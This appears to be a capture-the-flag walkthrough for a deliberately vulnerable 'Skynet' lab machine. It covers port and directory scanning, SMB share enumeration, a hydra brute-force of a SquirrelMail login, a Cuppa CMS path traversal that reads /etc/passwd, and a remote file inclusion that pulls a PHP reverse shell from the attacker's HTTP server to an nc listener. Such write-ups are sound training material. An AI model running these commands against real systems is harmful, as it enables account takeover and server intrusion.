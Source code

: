 #Linux #SMB  # 

skynet: A vulnerable Terminator themed Linux machine


NMAP Scan

```sh
  nmap -sV -sC -p- 10.10.14.219
  ```
* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

OPEN PORTS

* 22/tcp  open  ssh
* 80/tcp  open  http
* 110/tcp open  pop3
* 139/tcp open  netbios-ssn
* 143/tcp open  imap
* 445/tcp open  microsoft-ds (SMB)

We start with Port 80/tcp. The HTML code does not shown anything interesting, the buttons do not work.  

![image](https://user-images.githubusercontent.com/99097743/170730299-698d3ae3-81c2-48dc-89db-eca62bddbfa1.png)

![image](https://user-images.githubusercontent.com/99097743/170730467-87b64da3-0597-40fd-8b33-55fa10cc4027.png)

Let's move on the 'hidden" directories, Gobuster can help us locate them:

```sh
gobuster dir -u=http://10.10.14.219 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image](https://user-images.githubusercontent.com/99097743/170731438-021c0087-aea6-46a2-8c6a-3cb0c93ba632.png)

This analysis takes a while. The following directories were listed in the first few minutes:

* /admin (Status 301)
* /css (Status 301)
* /js (Status 301)
* /config (Status 301)
* /ai (Satus 301)
* /squirrelmail (Status 301) -- Check this out!
* /server-status

![image](https://user-images.githubusercontent.com/99097743/170733365-d1597c75-3cac-4cb0-a7b8-0e3402861fd6.png)

**Searchsploit** suggests that there is no vulnerability documented for **SquirrelMail version 1.4.23**

![image](https://user-images.githubusercontent.com/99097743/170743722-89617c7d-6878-4ec2-b530-1676178865ba.png)

OK, Let's switch to Port 445/tcp - SMB server. We can try the **enum4linux** for enumerating information.


```sh
  enum4linux -a 10.10.14.219
  ```
* To do all simple enumerations (-a)

There are interesting results such as the known usernames:

![image](https://user-images.githubusercontent.com/99097743/170734669-57ec1e84-403f-4464-a5a9-6c62c66ebe0b.png)


Here are the sharenames:

![image](https://user-images.githubusercontent.com/99097743/170734874-50cb0cc9-7a02-484e-a69e-1e9aa92a5772.png)


We can use the **smbclient** to enter the anonymous share.


```sh
  smbclient '\\10.10.48.162\anonymous'
  
  # If you need to enter share with a username
  smbclient -U milesdyson '\\10.10.246.55\milesdyson'
  
  ```
  
 We captured a number of log files -- one of which includes a password list for the email account: **milesdyson**. 
 
 Let's use **hydra** for brute-forcing the email account 
 
 ```sh
 hydra -l milesdyson -P log1.txt 10.10.48.162 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect" -V -F -u
```
![image](https://user-images.githubusercontent.com/99097743/170764972-17fd4f81-db5a-40c1-862f-6014aa37ce7c.png)

We now have access to the email account!

![image](https://user-images.githubusercontent.com/99097743/170765416-03b102ff-c975-4637-a994-d061991061c4.png)

There is a Samba Password Reset email providing a new password. We can use the credentials to login the SMB share and see that there is a document, entitled important.txt. Here, it reveals the 'hidden directory'. Gobuster suggests that there is another hidden directry as /administrator, please see the figure below. 

![image](https://user-images.githubusercontent.com/99097743/170796322-835a1ab6-695b-442d-b8d6-5b48d7cfc906.png)

Now, let's go to **searchsploit** and search if there is any vulnerability documented for Cuppa CMS:

![image](https://user-images.githubusercontent.com/99097743/170797721-4e0caa91-3458-4107-b093-7957aedb4788.png)


```sh
  searchsploit -m php/webapps/25971.txt
  #VULNERABILITY: PHP CODE INJECTION
  An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.
  
  # We basically include the following link:
  /alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
  
  so the full URL becomes:
  http://10.10.246.55/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

  ```

Now, we can work on the reverse shell:

STEP 1: Generate the Reverse Shell and save it on the local host (Here, it is called RS.php)

![image](https://user-images.githubusercontent.com/99097743/170798516-8239f698-5ea1-4fb9-9d05-7ad32868babe.png)


STEP 2: Open up an HTTP server to transfer the payload to the target machine

```sh
  sudo python3 -m http.server 80
  ```
![image](https://user-images.githubusercontent.com/99097743/170799511-a9cb1b0c-3cb8-49e2-8aa6-af2d5cc0eff9.png)

STEP 3: Turn on the listener
```sh
sudo nc -lvnp 87
 ```
 
 ![image](https://user-images.githubusercontent.com/99097743/170799539-6d6f535a-4de8-41f8-8860-5bfe58f86896.png)


STEP 3: Modify the PHP Injection URL:

```sh
http://10.10.246.55/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://
  ```
  
STEP 4: Upload the PHP file from the localhost using the HTTP server and invoke the listener

```sh
curl  http://10.10.246.55/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.123.93:80/RS.php
  ```

Niceeee!! it works:

![image](https://user-images.githubusercontent.com/99097743/170799708-ca8f61e3-ba39-462a-b38d-c67ea5661769.png)



